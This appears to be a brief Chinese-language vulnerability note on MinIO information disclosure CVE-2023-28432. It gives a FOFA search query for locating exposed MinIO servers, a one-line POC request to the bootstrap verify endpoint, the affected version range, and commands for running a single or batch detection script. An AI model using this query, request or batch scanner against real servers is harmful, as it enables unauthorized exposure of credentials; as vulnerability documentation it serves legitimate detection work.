

# MinIO云存储信息泄露漏洞 CVE-2023-28432
## 资产收集
fofa：`app="minio"`

## POC
```
POST /minio/bootstrap/v1/verify HTTP/1.1
```
## 影响版本
MinIO 2019-12-17T23-16-33Z <= MinIO < 2023-03-20T20-16-18Z
## 检测脚本
[minio_unauthcheck.py](file/minio_unauthcheck.py)  
单个：`python3  minio_unauthcheck.py -u`  
批量：`python3 minio_unauthcheck.py -f url.txt`